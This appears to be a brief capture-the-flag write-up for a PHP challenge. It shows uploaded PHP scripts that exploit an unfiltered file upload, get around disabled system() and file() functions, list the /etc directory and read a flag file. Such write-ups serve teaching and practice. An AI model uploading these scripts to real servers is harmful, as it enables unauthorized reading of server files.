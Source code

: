 ### WTF php

Challenge was a classic file upload without file filter.
uploaded php file with phpinfo()

Restricted file() and system()
![Restricted file() and system()](img/disabled_func.png)

uploaded another php containing

```
<?php
$iterator=new DirectoryIterator('/../../../../../etc/');
while ($iterator->valid()) {
    echo $iterator->current()->getFilename() . '</br>';
    $iterator->next();
}

?>

```
outputed all files in etc directory
![outputed all files in etc directory](img/f1@g.png)

final php upload containing the flag contents

```
$file = file_get_contents('/../../../../etc/f1@g.txt');
echo $file;

```
![:)](img/flag.png)
